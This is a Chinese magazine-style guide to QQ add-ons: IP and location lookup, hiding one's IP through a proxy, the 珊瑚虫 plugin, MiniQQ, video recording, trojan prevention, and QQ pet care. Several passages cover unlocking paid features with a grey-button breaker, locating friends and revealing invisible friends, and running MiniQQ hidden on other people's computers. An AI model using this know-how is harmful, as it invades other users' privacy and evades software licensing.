在“其它工具”的“IP 助手”里我们可以随时轻松查看我们自身计算机的 IP 配置表、TCP 连接表、UDP 连接表，非常方便实用。下面的“其它”里还有一个 Flash Online 功能，我们穷人就无权消受啦，有钱人去试试吧，让自己的头像在好友 QQ 里面不停闪烁的感觉好像不错！

我们再来看看“设置”，在这里我们可以选择我们 QQ 的路径，一般软件都为你选择好了。下面又有一个注册才能用的功能：设置 QQ 的客户端默认端口。这个功能的具体作用如下：

- 1. 对于某些局域网中屏蔽了 4000 端口以致无法上 QQ 的用户提供上 QQ 的可能；
- 2. 防止某些软件刻意地攻击 4000 端口；
- 3. 提供一个个性化的端口，让你 QQ 得更有个性！

你可以设定为 1—8000 之间的任何值。但是当你定义 QQ 的默认端口时，需要注意的是要避开一些常用的服务端口，以免出现操作系统无法分配该端口给 QQ 从而使 QQ 无法登录。

这个功能看起来也是不错的，我们试试能不能免费来使用一下这个功能。没想到这么简单，我打开灰色按钮突破器，然后再把鼠标移动到 QQ 狙击手上就轻松突破了，如图8，上边还是（未注册），下面却已经能修改了。这个功能我没用过，不知道效果怎么样，大家如果感兴趣可以自己去试一下。

有了这款软件，任何人的 IP 可都难逃我们的法眼啦，以后就可以简简单单获得对方的地理位置了。

## 三招轻松实现隐藏IP

在 QQ 中隐藏自己的 IP，大多数情况下是使用代理。但代理如果不是自己架设的，就不稳定，不知道什么时候就不能用了。兰飞 QQiPPro 软件虽然也是使用的类似代理的原理，但它比我们在网上找的免费代理稳定多了。

兰飞 QQiPPro 3.32 版支持最新的 QQ，打开软件界面如图1。程序自动开启本机“http 代理”——127.0.0.1:8081，端口可以在设置中更改。

想隐藏 IP，就要在 QQ 中设置使用这个“代理”。在 QQ 登录处的网络设置处选择 HTTP 代理，填写地址：127.0.0.1，端口：8081，用户：登录的 QQ 号码，密码：登录的 QQ 密码（图2）。这里的用户和密码一定要填写所要登录的 QQ 号码和密码，不然无法登录。

图3是使用兰飞 QQiPPro 前的 IP 地址，图4为使用后的效果。QQiPPro 在使用过程中有详细的日志记录，如图5中的就是查看好友资料的记录。

QQ2006 会通过 QQiPPro 执行一些 HTTP GET 操作，比如下载广告图片等，如果不启动该功能可能导致 QQ 报告掉线或无法添加好友。在 QQiPPro 的系统设置的通讯面板中选中“简单支持 HTTP 的 GET 和 POST 操作（推荐）”选项即可启动该功能（图6）。

登录 QQiPPro 的 QQ 号码不能启用共享地理位置的功能，这是很多用户初次使用时会犯的错误。如果已经启动该功能，请先关闭之，方法是打开 QQ 的个人设置，去选“显示我的地理位置”的选项。设置中的“其他”项中，可以设置“自动屏蔽 QQ 系统消息”和“自动关闭新闻广播窗口”（图7）。

随便打开一个聊天窗口，发送“\?”消息，就能看到 QQiPPro 操作指令（图8）。在系统设置的 IP 服务面板中选中“启用手动和自动方式查询好友 IP 的服务”，就可以启动 IP 服务（图9）。成功启动后，QQiPPro 会在日志信息中显示所加载的 IP 数据库类型及其版本。要启用 IP 服务，必须要有一个 IP 数据库。QQiPPro 自带了简易 IP 数据库，但 QQiPPro 也支持比较流行的纯真 IP 数据库，可以到网上下载。下载后把纯真 IP 数据库解压，把其中的 QQWry.dat 文件拷贝到 QQiPPro 安装目录下，然后重新启用 QQiPPro 即可。好友上线后就会发来信息，自动报告地理位置（图10）。

兰飞 QQiPPro 中许多实用的功能都是需要注册的，网上的破解版版本太低，不支持新版 QQ，怎么选择看个人需要了。

## QQ 的好搭档——珊瑚虫外挂

QQ 最著名的辅助程序非珊瑚虫莫属，它不仅能显 IP，还能显隐身（实用呀），拦截如来神掌，屏蔽系统广播，支持老板键，定制托盘图标，定时释放内存等等许多好用的功能。现在跟我来看看怎么使用珊瑚虫让我们的 QQ 更完美。

最新版珊瑚虫外挂为 4.5 版，把程序解压缩到 QQ 的安装目录（别的目录也行）。先执行珊瑚虫的设置程序——COQCfg.exe，点击“参数设置”，如图1。

在常规设置中，先设置 QQ/TM 执行文件的位置。QQ 连接的端口也可以自定义。在“扩展功能”和“高级选项”中是能设置珊瑚虫的“附加”功能（图2）。新版外挂增加了“一键锁定”的功能，默认热键为“Ctrl+=”，所有热键更改都在“热键设置”中（图3）。所有设置完成后，点击“保存设置”，关闭设置程序，启动外挂，登录 QQ。

图4为 SAGI 的 IP 信息，很牛 X 吧，不是以前那种死板的信息显示。它的原理是修改配置文件，不过这里我们用的是网友修改的配置文件，我们下载回来后，要把配置文件导入到珊瑚虫外挂中，再重启 QQ 就能看到效果了（图5）。我们自己修改的设置也可以导出备份。在聊天窗口点击右键，会弹出珊瑚虫的右键菜单，如图6。如图好友的 IP 没有显示或显示错误，选择“手动刷新好友IP”，珊瑚虫会重新探测好友 IP。防打扰功能可拒绝好友发送来的：文件传送、语音视频请求等（用老板键隐藏 QQ 之后自动拒绝所有好友）。

希望借助珊瑚虫外挂能让大家的愉快变得更愉快。

## 留住美好——视频录制

现在视频聊天已经很普及了，QQ 的视频功能经过多次改进，已趋于成熟。最近增加了个视频秀，又是个给腾讯赚钱的工具。QQ 的视频可以拍照，遗憾的是不能录像，只能使用别的软件来完成录制功能。我给大家带来的是小巧的 Quick Screen Recorder，程序操作简单，录制文件保存为 AVI 格式，录制支持热键操作，软件界面如图1。

“热键”选项能设置三个热键，如图2。“常规选项”是设置录制方式（图3），“普通区域”方式就像 QQ 的截图方式，采用鼠标选取区域（图4）；“固定区域”为录制固定大小的区域，这个区域可以挪动。通过宽度和高度的数值设置大小，点击“选择固定区域”能用鼠标圈选指定区域；“全屏”当然是整个屏幕了。下面的两个选择建议选上，免得影响录制画面。“视频选项”中可以设置压缩的方法和帧率（图5）。“光标选项”能设置隐藏光标，还能自定义录制时光标的图标（图6）。

录制视频的开始热键默认为 F8，停止 F9。当开始录制视频时，程序会根据设置选择录制区域，并且在录制中程序界面会显示录制过程的具体参数。录制完成后，录制文件存为 AVI 文件，并自动用播放器播放。

## QQ木马克星

在这个木马横行的年代里，木马病毒千变万化，特别是加壳或特殊处理过的木马病毒，很难被一般杀毒软件查杀出来，使得许多杀毒软件都如同虚设。我们可爱的 QQ 号这可就不保了，特别是那些 5-6 位的靓号，一不留神就可能被木马给“驮”走了。如果你的 QQ 号再没有密码保护，你就等着哭去吧。

木马传播的常见方式一般分为以下几种：

- 1. 网站挂马传播
- 2. 邮箱附件传播
- 3. QQ 群共享传播
- 4. 网络硬盘共享传播
- 5. QQ 好友文件传播

只要我们稍不注意，说不定我们的 QQ 号就被木马给盯上了。所以我们不得不对我们的电脑安全加以防范了。

主要预防措施：

- 1. 不随意接收一些陌生人发来的文件或者网址；就算是熟人你也要多问上几遍，确定他是本人再考虑接收。
- 2. 在网上见到越诱人的东西越要引起注意，仔细看清它的域名，特别是下载时若发现文件为 exe 格式要提高警惕。
- 3. 不能确定安全性的网站最好不要上；如果实在要上，必须先打开杀毒软件和防火墙，并及时修补系统漏洞。
- 4. 不要轻信 QQ 群里有人上传的软件，他们一般都是冲着你的 QQ 号去的。
- 5. 下载的东西一定要先查毒，尤其是体积异常小、图标可疑的文件；防毒软件要勤更新。

尽管你一再防范，但是还有例外中招的时候。QQ 公司对此也做出了一系列的防范措施，如果你出现如图 1 的情况时，就说明你已经中了木马。警告你这个时候不要故作聪明，来把你的密码错开来打（不按照原本的顺序），这样也是很危险的，这样做对现在的大部分盗 QQ 的木马已经不起效果了，也不能从别的地方复制来密码。这个时候你唯一要做的就是清除木马，把木马 kill 掉就可以了。但是我不知道腾讯公司是怎么设计的，木马清除了以后这里依然是带有小叉号。（小编注：因为木马破坏掉了腾讯的密码保护组件，可是清除木马时并没有恢复该组件，所以仍然有小叉号，重新安装一遍 QQ 就可以解决这个问题。）

为了 kill 掉 QQ 木马，我们来找找 QQ 的木马专杀工具：

- 金山的“QQ 尾巴”专杀工具，如图 2
- 金山的 QQ 木马专杀工具，如图 3
- 瑞星的 QQ 木马专杀工具，如图 4
- ……


## 第三章 QQ工具箱


这些都是比较大的杀毒软件公司为 QQ 病毒做的专杀工具。腾讯公司和瑞星公司强强联手，还推出完全免费的瑞星 QQ 相关病毒在线查杀，网址如下：http://club.qq.com/virus/qqvirus.htm。另外还有很多清除木马的软件也都非常不错，比如：木马克星、木马专杀、木马防线等等，大家可以自由选择。

防火墙，你可以到“http://zhidao.baidu.com/question/10285714.html”这个网站来参考一下各个杀毒软件和防火墙的介绍，看看它们的优缺点，然后根据自身的需要来选择一个适合自己的。我现在用的是“卡巴斯基”，用起来还是比较不错的，然后再配一个防火墙就够了。平时建议开启实时监控，一旦发现有可疑迹象，马上全系统杀毒。杀毒的时候最好在开机的时候按 F8 到“安全模式”下进行。

尽管阻杀木马病毒的软件已经比较完善，但是你也不能大意，需要时刻提醒自己注意安全。还没有申请 QQ 密码保护的朋友尽快设置好密码保护，请到官网申请，防止被假冒钓鱼网站截取密码。进一步增强 QQ 账号安全，腾讯公司特别推出更安全 DNA 保护信息体系……祝大家以后的 QQ 生活快乐，远离木马程序，QQ 号永远伴随着你！

### 70K的迷你QQ

现在都讲究迷你，浓缩的才是精华。臃肿的 QQ 也有了迷你版，只有 70K 左右。迷你 QQ（MiniQQ）是一个超级小的 QQ 客户端，具有常用的聊天功能，而且还能显示 IP，采用命令行方式工作。MiniQQ2.1 在命令行方式下工作，使用标准腾讯 UDP 协议，流量很小，在网速不快或按流量收费时更有优势。

由于这个软件是纯命令行操作，所以都靠输入命令使用 QQ。首先看看 MINIQQ 都有哪些常用命令，输入“？”回车可以查看命令帮助。打开 MINIQQ2.1，在命令行窗口输入账号和密码登录，如图 1。登录步骤显示得一清二楚。


### MiniQQ 使用帮助和相关命令说明（区分大小写）

| 英文命令 | 中文命令 | 命令说明 |
|---|---|---|
| ?/help | 帮助 | 显示使用帮助 |
| list | 好友 | 显示在线好友列表 |
| listall | 全部 | 显示全部好友列表 |
| send | 发送 | 发送消息给特定好友 |
| state | 状态 | 改变/查看我的当前状态 |
| add | 添加 | 添加指定号码为好友 |
| delete | 删除 | 删除某个好友 |
| info | 资料 | 查看好友的资料 |
| agree | 接受 | 接受身份认证的请求 |
| group | 群 | 操作群的相关命令 |
| re | 回复 | 回复最后一条消息 |
| 返回 | 返回 | 返回到提示符状态 |
| update | 刷新 | 强制刷新在线好友 |
| sound | 声音 | 开启和关闭声音效果 |
| cls | 清屏 | 清除屏幕 |
| logout | 下线 | 下线并换 QQ 号码登录 |
| exit | 退出 | 下线并退出迷你 QQ |
| buy | 购买 | 帮助/购买正式版（支持继续开发） |

提示：`Ctrl + 空格` 打开中文输入法；帮助/购买请输入 `buy` 并回车。

先输入 `listall`，查看全部好友列表，如图 2。从图中看到好友的状态，其中有隐身，说明 MINIQQ 还能显示隐身，功能太强大了。


给好友发送信息，输入 `send 666666` 命令，然后就可以开始和 666666 聊天了，如图 3。好友或群来信息后，MINIQQ 会自动显示出来。如果你想和别人聊天，要退到上一级菜单，命令是：...

修改或查看自己的状态，输入 `state 0/1/2/3`（0：查看当前状态；1：设置状态为在线；2：设置状态为忙碌；3：设置状态为隐身），如图 4。


查看好友信息，命令格式为 `info [编号/QQ号/昵称]`，其中编号是 MINIQQ 显示好友列表中显示的编号。查看结果如图 5。


删除和添加好友的使用方法同查看好友信息相同，如图 6、7。如果有人想添加你为好友，发来需要身份验证。想通过身份验证，输入命令 `agree QQ号码`，如图 8。


输入命令 `re [消息内容]`，是回复最后一个给你发信息的人，如图 9。

`group` 命令的作用是操作群消息显示与否，0 为禁止显示，1 为允许显示，如图 10。

MINIQQ 还可以通过快捷方式实现一键登录，首先右键点击 MINIQQ2.1，选择“创建快捷方式”，如图 11。然后右键查看此快捷方式的属性，在“目标”内容的后面加上登录的参数。格式：

```txt
C:\MINIQQ.exe 号码 密码 参数
```

最后面的参数不是必须的。


| 参数 | 作用 |
|---|---|
| /hidelogin | 隐身登录 QQ |
| /nosound | 无声模式启动 |
| /nosave | 不保存聊天记录 |
| /noshow | 隐藏模式（特殊环境下可用） |

隐藏模式是让你的软件窗口不显示出来而已，而且不能再恢复，要关闭的话只能把进程结束掉。属性设置如图 12，登录结果如图 13。


虽然 MINIQQ 在功能上还无法同官方版 QQ 相比较，但是它的便捷性是其它版本无法比拟的。下面是在 MINIQQ 使用过程中遇到问题及其解决方法和一些技巧。

### 常见问题

1. **正在打字时，突然出现 XXX 好友上线，还未输入完的字被打断？**  
答：未输入的字依然还在，你可以继续输入，发送时信息仍会完整发出。

2. **使用过 MiniQQ 后，发现自己的头像被修改成一个圆圆的东西？**  
答：这是腾讯某些识别策略导致的显示问题，离线后通常会恢复，也可按文中建议方式退出以减少影响。

3. **MiniQQ 安全吗？你们会不会记录我们的密码？**  
答：文中说明其直接连接腾讯服务器，未经过第三方中转；并提到密码存储采用加密方式，但仍建议注意程序来源安全。

4. **MiniQQ 怎么使用代理服务器？**  
答：暂时请使用第三方软件，比如 SocksCap32 等，MiniQQ 需要一个 Socket5 代理服务器。GPRS 用户请使用 1.6 版，1.6 只需要 cmwap 接入点，无需任何代理。

5. **为什么我的迷你 QQ（MiniQQ）登录不上呢？**  
- 1. 您的防火墙软件阻拦了网络连接，请设置防火墙规则允许网络连接，或者关闭防火墙。  
- 2. 您的网络需要代理服务器，目前 MiniQQ 需要一个 Socket5 代理，请使用第三方代理软件。

6. **我刚刚和某个朋友聊天，自动切换到了“好友号码(昵称)>”的状态，我不想和这个朋友聊天了，如何退出此状态？**  
答：什么都别输入，直接按一下回车即可。

7. **/noshow 参数什么意思？**  
答：一般情况下不需要此参数。这是一种完全隐藏 MiniQQ 的参数，并且不可恢复显示，主要用于挂机或在别人的电脑上偷偷挂 MiniQQ。在自己的电脑无须使用。使用 `/noshow` 参数因为没有界面，你也就无法直接输入 QQ 号密码，请在参数中指明你的 QQ 号和密码。聊天记录中会有是否登录成功的记录，也会记录下聊天信息。

8. **关于身份验证请求的注意事项？**  
答：当你用 `agree x` 通过某人身份请求以后，最好使用同样的 `add x` 命令将它加入好友一次。这是腾讯协议的特殊性，加好友是双向的，并不是你在它好友列表内就意味着他也在你好友内。

9. **1.6 版反隐身的说明？**  
答：如“木神虫（探测隐身）”是一个已经被封掉的漏洞，但腾讯 LumaQQ 仍然有此功能（“揪蝙虫”是自动的）。设想一下，如果一个离线的好友发来“木神虫”，那么它肯定是隐身。MiniQQ 根据这一点可以显示出来一部分的隐身好友。此外，MiniQQ 发现了腾讯协议的一处漏洞，也可以显示部分隐身好友（不是 100% 精确，但也差不多）。具体细节不方便公开，否则腾讯动作非常快，自己慢慢领悟。

### 使用技巧

- 1. 好友给你发来信息的时候前面有一个方括号“[xx]”，里面的内容就是该好友的编号，直接用 `send 编号 内容` 就可以回复它的消息了。
- 2. 想重复刚刚说的话，或者打的命令，只需按一下键盘上的上箭头（仅支持 XP）。
- 3. 如果想给自己的好友群发（注意是“群发”，不是给“群”发消息）信息，登录上 MiniQQ 后开记事本，然后输入如下内容：

```txt
send 1  群发消息内容
send 2  群发消息内容
... 省略 ...
send 100  群发消息内容
```

然后复制这些文本，并切换到 MiniQQ 窗口粘贴即可。

## DIY 自己的QQ安装程序 2.20

当你看到网上流传的非腾讯版的 QQ 安装程序，你有没有心动？有没有想过制作一个某某个人版？现在我就来教你怎么制作程序。

首先我们把光盘中的“QQ2006组件包.rar”解压缩到 C 盘根目录下（一定要解到这里，不然无法识别），然后我们来配置具体的安装选项。用“记事本”打开 `C:\腾讯QQ\安装脚本目录\QQ2006.nsi` 文件，映入眼帘的是我们要制作的安装程序的配置信息，如图 1。

其中的信息都是可以改成自己想要的，比如把“黑客X档案”改成“小田专版”，还有下面的网址也可以填上你的个人网站等所有你想修改的信息，想怎么改就怎么改。程序做完后，把它放到网上或传给朋友，许多人都会佩服你的功力。

QQ 中的一些组件是我们平常用不着的，但是在安装的时候我们又不能把它去掉。我们自己做安装程序时就可以挑选适合自己的组件，把不需要的组件删除。方法如下：


- 1. 用记事本搜索你想删除的组件名称，比如“手机短信”（如图 2）。
- 2. 把以下代码删除：

```txt
Section "手机短信" SECPhone
  SectionIn 1 2
  SetOutPath "$INSTDIR"
  File "..\可选组件\手机短信\QQMMSender.dll"
  Shortcuts
SectionEnd
```

- 3. 再用查找功能，查找组件编号“SECPhone”，找到其组件描述并删除，代码如下：

```txt
!insertmacro MUI_DESCRIPTION_TEXT ${SECPhone} "QQ 与手机之间互发短信的功能"
```

不需要的组件删除后，你可以根据自身需要更改组件的安装情况。

接下来开始生成安装程序：先安装 `nsis214chs.exe`（NSIS 2.14 中文版）。安装完成后程序会自动运行主程序，进入 NSIS 菜单界面（如图 3）。

这里用到的是 MakeNSISW 编译器，点击图 3 中的相关入口。然后在“文件”菜单中选择“载入脚本”，载入 `C:\腾讯QQ\安装脚本\QQ2006.nsi`（如图 4）。脚本载入后程序会自动编译安装程序，等待完成即可（“测试安装程序”按钮可用于验证编译完成，如图 5）。

如果你觉得生成的安装程序图标或图片不够理想，可以在 NSIS 安装目录下的 `Contrib/Graphics/icons`、`Contrib/Graphics/Header`、`Contrib/Graphics/Wizard` 等文件夹中替换相应资源。完成后即可得到最终效果（如图 6）。

## 砸蛋得宠物

获得 QQ 宠物有许多途径，像充值送宠物、买礼包宠物和砸蛋得宠物等等，我们追求的当然是免费获得宠物，所以砸蛋活动就是不二的选择。

首先介绍一个砸中几率很大的砸蛋活动——“砸出我的 Q 宠宝贝，砸出我的 Q 宠宝贝”。在这个砸蛋中我们只要砸银色的蛋，就有 99.9999% 的几率砸中。如果你还是没有砸中，可以等一个星期再来试过，活动规定每个星期只有一次领奖机会。第一步访问 http://client.pet.qq.com/pet.htm 网址，如图 1。第二步输入你要领养宠物的 QQ 号和密码登录，如图 2。第三步也是最重要的一步，一定要记住砸那个银色的蛋，如图 3。成功的你会看到“金花四溅”，恭喜您获得 QQ 宠物一只。因为我在砸的时候由于网络问题，没有出现成功提示画面，但是再登录砸蛋的时候就提示我已经砸中领取一只 QQ 宠物，如图 4。


砸蛋的活动不止一个，还有一个“我爱我的天使宝贝”砸蛋活动。砸蛋方法和上面的一样，不过这个纯粹凭运气，我也不知道哪个几率高。活动网址为：http://pet.qq.com/act/angel/index.shtml，登录、砸蛋（图 5、6）。成功的话得到宠物一只，失败的话得到天使一坨（图 7、8）。

### 3.2 QQ宠物喂养攻略

### 一、操作面板介绍

- 1. **我的家（图1）**  
  宠物资料：查看宠物的各种属性  
  宠物家庭：查看宠物家庭的成员及结婚纪念日  
  修改资料：修改 Q 宠的名字及它对你的称呼


图1

- 2. **储藏室（图2）**  
  食品：买来的食品都储藏在这里，用来提高饥饿值  
  日用品：买来的日用品放在这里，用来提高清洁值  
  药品：买来的药品放在这里，用来治病及复活（还魂丹）


图2

- 3. **保险柜（图3）**  
  这里是你的小金库，你的元宝就藏在这里，而且里面可以查看到你当天的元宝交易记录


图3

- 4. **玩具箱**  
  放宠物玩具的地方

- 5. **宠物炫**  
  这里可以看到已学的宠物炫和可以学习的宠物炫，宠物炫可以增加一定数量的属性（学习宠物炫要元宝的哦）

- 6. **购物车**  
  这是你选购物品后的暂时存储车，可以从这里进行结账。支付可以选择用元宝或者是 Q 币，1 Q 币等于 100 个元宝，Q 币可以折换成元宝，元宝不可以换 Q 币。

- 7. **管理处**  
  这是官方发布新闻的地方，可以从这里查看到一些最新活动及公告

- 8. **宠物村介绍（图4）**  
  宠物村：在这里可以看到宠物村的全景，并可以直接点击进入  
  购物街：购买食品 / 日用品 / 药品的地方  
  俱乐部：查看你的宠物排名  
  医院：看病开处方的地方  
  大学城：学习宠物炫的地方  
  教堂：买戒指和结婚 / 生宠物蛋的地方  
  玩具：购买宠物玩具的地方  
  装扮屋：装扮你的 QQ 宠物的地方（你的房子也在那里面）

- 打工场：打工赚取元宝的地方  
- 竞技场：举行宠物运动会的地方

在线时间长短和宠物的心情值有关。心情值越高，宠物的成长就越快；反之，心情值越低，宠物在线成长就越慢。在心情满的情况下，宠物一个小时可以增长两个成长值。如果心情一般，则只能一个小时增长一个成长值。


图4

| 级数 | 成长值 | 每级所需成长值 | 每级增加值 |
|---|---:|---:|---:|
| 01 | 1 | +2 | +1 |
| 02 | 3 | +3 | +2 |
| 03 | 6 | +5 | +2 |
| 04 | 11 | +7 | +3 |
| 05 | 18 | +10 | +4 |
| 06 | 28 | +14 | +3 |
| 07 | 42 | +17 | +4 |
| 08 | 59 | +21 | +5 |
| 09 | 80 | +26 | +5 |
| 10 | 106 | +31 | +6 |
| 11 | 137 | +37 | +6 |
| 12 | 174 | +43 | +7 |
| 13 | 217 | +50 | +8 |
| 14 | 267 | +58 | +7 |
| 15 | 325 | +65 | +8 |
| 16 | 390 | +73 | +9 |
| 17 | 463 | +82 | +9 |
| 18 | 545 | +91 | +10 |
| 19 | 636 | +101 | +10 |
| 20 | 737 | +111 | +11 |
| 21 | 848 | +122 | +12 |
| 22 | 970 | +134 | +11 |
| 23 | 1104 | +145 | +12 |
| 24 | 1249 | +157 | +13 |
| 25 | 1406 | +170 | +13 |
| 26 | 1576 | +183 | +14 |
| 27 | 1759 | +197 | +14 |
| 28 | 1956 | +211 | +15 |
| 29 | 2167 | +226 | +16 |
| 30 | 2393 | +242 | +15 |
| 31 | 2635 | +257 | +16 |
| 32 | 2892 | +273 | +17 |
| 33 | 3165 | +290 | +17 |
| 34 | 3455 | +307 | +18 |
| 35 | 3762 | +325 | +18 |
| 36 | 4087 | +343 | +19 |
| 37 | 4430 | +362 | +20 |
| 38 | 4792 | +382 | +19 |
| 39 | 5174 | +401 | +19 |
| 40 | 5575 | +401 | +0 |

## 二、宠物状态介绍

- 1、等级：宠物的等级是一个宠物标志性的属性，宠物的排名大多以宠物的等级为主。宠物的等级只以它的成长值多少为准。宠物等级称号对照表：

| QGG等级 | 称号 |
|---|---|
| 1—10 | 毛头 |
| 11—20 | 嫩青 |
| 21—30 | 车夫 |
| 31—40 | 勇者 |
| 41—50 | 游侠 |
| 51—60 | 斗士 |
| 61—70 | 战神 |
| 71—80 | 无敌 |
| 81—90 | 将臣 |
| 91—100 | 圣帝 |

| QMM等级 | 称号 |
|---|---|
| 1—10 | 丫头 |
| 11—20 | 豆蔻 |
| 21—30 | 美人 |
| 31—40 | 贵韵 |
| 41—50 | 天后 |
| 51—60 | 哲娥 |
| 61—70 | 哲娥 |
| 71—80 | 哲娥 |
| 81—90 | 哲娥 |
| 91—100 | 圣母 |

- 2、成长值：宠物的成长值不单单是指宠物在线时间的总和，宠物必须在成长状态中才能增加成长值。在成长状态下，宠物的成长值与宠物在线时间长短和宠物的心情值有关。
- 3、年龄：宠物自出生之日起，在成长状态下在线时间总和。
- 4、饥饿：宠物要保持在健康状态，要控制饥饿值在720-1800之间。宠物心情满的时候每分钟消耗2点饥饿值，在打工的时候每分钟消耗4点饥饿值。一般每6个小时要喂食一次，打工状态3小时喂一次。
- 5、清洁：清洁值的范围稍微宽一些，只需保持在1440-3000即可。宠物心情满的时候每分钟消耗2点清洁值，在打工的时候每分钟消耗4点清洁值。
- 6、健康：宠物的健康值标志着宠物当前的健康状况。当宠物健康值小于5时就会生病，4是不舒服，3是小病，2是重病，1是绝症，0是死亡。它的健康值由宠物的饥饿值、清洁值和心情值决定。在宠物心情不好而饥饿或者清洁值超出范围时，宠物最易得病。所以为了宝宝的健康一定要多多注意它的饥饿、清洁和心情情况。
- 7、心情：宠物的心情值是宠物当前的心情指数，宠物的心情值与你——宠物的主人有关。如果你能够多多关注它，多多逗它，陪它猜拳，它的心情就会很好。宠物的心情指数也是比较重要的，当它的心情指数满，宠物就会长得很快；如果心情指数低，会为它生病创造条件；如果心情特别低，甚至宠物会停止成长。提高宠物心情值可以通过逗宠实现。
- 8、状态：顾名思义，就是宠物当前在不在成长状态。

宠物只有在成长状态下才会成长，但是非成长状态也不是完全没有意义的。当你照顾宠物累了又想它活跃在你的桌面上时，就可以暂停它的成长。宠物在非成长状态时不会消耗饥饿和清洁值。主人可以暂停或者恢复宠物的成长（右键点击宠物身体或者屏幕右下角的宠物图标选择）。

- 9、属性：  
武力值表示宠物具有的武力指数。  
智慧值表示宠物具有的智慧指数。  
魅力值表示宠物具有的魅力指数。

#### 三、打工生活

因为腾讯调整了打工的等级，原来5级的工种需要6级，10级变成12级，15级变成18级……在六级前打工是很亏的，不打工的时候，每个小时的消耗折合10元宝，6级需要28个成长值。如果都维持心情值在6的话，14个小时就可以达到，每个QC（Q宠的简称，下同）自带的300元宝维持到这个时候是绝对够的。六级以后就要踏上打工的生涯了。腾讯规定每天只能打工8个小时，可能有时会因为服务器的缘故，可以多打工几个小时。所以我们要在宠物成长过程中不断地打工，为了省钱也只能辛苦宠物了。

由于网络原因，很多时候QQ会突然掉线，QC正在打了几十分钟的工不是白费了？问题当然可以解决，那就是当QQ掉线的时候，一定不要让QQ退出，QC也不行。使用QQ状态里的离线功能，然后再等一段时间，等到网络好一点（一定要等一段时间），然后再重新使用QQ状态里的上线功能（就是和离开、隐身、离线里的那个），这样子重新登录QQ。

而这时QC也会自动上线，然后自动续上原来打的工。此项功能只有QQ和QC都没有退出的情况下才可以，否则将不可以再续打。

更改后的打工等级表：

### 一、建筑工地
- 1、搬砖头、泥瓦匠：20元宝，0级，条件不限；
- 2、花匠：26元宝，6级，小学礼仪；
- 3、木匠：26元宝，6级，小学劳技；
- 4、园丁：28元宝，9级，小学语文、小学美术；
- 5、建筑师：40元宝，24级，大学数学、大学美术。

### 二、报社
- 1、记者：26元宝，6级，小学语文；
- 2、漫画家：34元宝，15级，中学劳技、中学美术；
- 3、编辑：36元宝，18级，大学语文；
- 4、摄影师：36元宝，18级，大学美术；
- 5、智多星：38元，21级，大学语文、大学数学、大学政治。

### 三、警察局
- 1、保安：28元宝，9级，小学武术、小学政治；
- 2、教练：32元宝，12级，中学武术；
- 3、警察：34元宝，15级，中学武术、中学政治；
- 4、教官：36元宝，18级，大学体育；
- 5、武道家：38元，21级，大学体育、大学武术、大学劳技。

## 四、法院

- 1、律师：32元宝，12级，中学政治；
- 2、审判官：40元宝，24级，大学武术、大学政治。

## 五、艺术剧院

- 1、演员：28元宝，9级，小学劳技、小学礼仪；
- 2、歌手：32元宝，12级，中学音乐；
- 3、词曲者：34元宝，15级，中学语文、中学音乐；
- 4、万人迷：38元，21级，大学美术、大学音乐、大学礼仪；
- 5、指挥家：40元宝，24级，大学体育、大学音乐。

给大家一个网上流行的打工、学习表：

| 宠物等级 | 收入/小时 | 消耗/小时 | 余/小时 | 可打工种及学习要求 |
|---|---:|---:|---:|---|
| 0≤等级<6 | 20 | 18 | 2 | 可打搬砖头、泥瓦匠两个工种（无学习要求） |
| 6≤等级<9 | 26 | 22 | 4 | 可打花匠工种（学习要求：小学礼仪） |
| 9≤等级<12 | 27 | 24 | 3 | 可打园丁工种（学习要求：小学语文、小学美术）；可打保安工种（小学武术、小学政治）；可打演员工种（小学劳技、小学礼仪） |
| 12≤等级<15 | 32 | 28 | 4 | 可打教练工种（中学武术）；可打律师工种（中学政治）；可打歌手工种（中学音乐） |
| 15≤等级<18 | 34 | 30 | 4 | 可打漫画家工种（中学劳技、中学美术）；可打警察工种（中学武术、中学政治）；可打词曲者工种（中学语文、中学音乐） |
| 18≤等级<21 | 36 | 30 | 6 | 可打编辑工种（大学语文）；可打教官工种（大学体育）；可打摄影师工种（大学美术） |
| 21≤等级<24 | 38 | 30 | 8 | 可打智多星工种（大学语文、大学数学、大学政治）；可打武道家工种（大学体育、大学劳技、大学武术）；可打万人迷工种（大学美术、大学音乐、大学礼仪） |
| 24≤等级<30 | 40 | 30 | 10 | 可打建筑师工种（大学美术、大学数学）；可打审判官工种（大学政治、大学武术）；可打指挥家工种（大学体育、大学音乐） |
| 30级以上 | 42 | 30 | 12 | 可打宠物王工种（学习要求：全部课程） |

大家看看，你现在所处的地方，要打工的注意了哦！

按平均点数发卖的物品，无优惠可言。可以一次性购买高价格的物品：比如恢复量在900或以上的几种食品类中的物品，元宝少的玩家特别注意下：

## 四、喂养宠物

现在官方已经卖的食品分保健、冷饮、零食、面食和海鲜5大类；日用品分电器、清洁、护肤、香水和护发5大类。

经过分析，点数平均价格：
- 清洁360点 = 10元宝
- 饥饿360点 = 10元宝
- 智慧2点 = 5元宝
- 武力2点 = 5元宝
- 魅力2点 = 5元宝

- 冷饮类：香瓜果冻 60元宝 1080饥饿 15魅力
- 零食类：甜心巧克力 50元宝 900饥饿 12魅力
- 面食类：鱼形曲奇饼 60元宝 1080饥饿 15武力
- 海鲜类：新鲜红衫鱼 50元宝 900饥饿 12武力
- 海鲜类：深海金枪鱼 50元宝 900饥饿 12武力
- 海鲜类：大对虾 50元宝 900饥饿 12武力

这里把它们分为恢复900型和恢复1080型，按照规定平均点数计算：恢复900型，12点魅力（或武力）=30元宝，恢复720饥饿=20元宝。结论：差价赠送，恢复180饥饿=5元宝。

恢复1080型，恢复1080饥饿=30元宝，12点魅力（或武力）=30元宝，结论：差价赠送3个属性点=7.5元宝。

恢复900型适合想花少些钱养宠物的朋友，恢复1080型适合想强化宠物属性或争夺官方活动属性排行榜的朋友。

## 五、Q宠婚姻

- 1. 每只Q宠每天只能发送一次求婚请求，结婚双方必须加为好友。
- 2. Q宠在求婚时，需要赠送对方一枚结婚戒指。每一枚戒指都有固定的爱情值，爱情值越高的宠物获得的宠物蛋越多。您还可以通过增加您Q宠的成长值来提高它的爱情值。
- 3. 只要您的Q宠和好友的Q宠级别在15级以上，非近亲，并且性别相异，同属同一代，就可以到大教堂找山羊牧师举行婚礼，结为夫妻。结婚后的Q宠可以在大教堂的山羊牧师处查询自己的婚姻信息。
- 4. Q宠结婚后超过100个小时，由QMM进入宠物大教堂点击山羊牧师，按下培育宠物蛋按钮后，就有可能获得一只或者多只宠物蛋。
- 5. 每只Q宠只有10次生蛋机会，每两次生蛋之间都有一定的时间间隔。
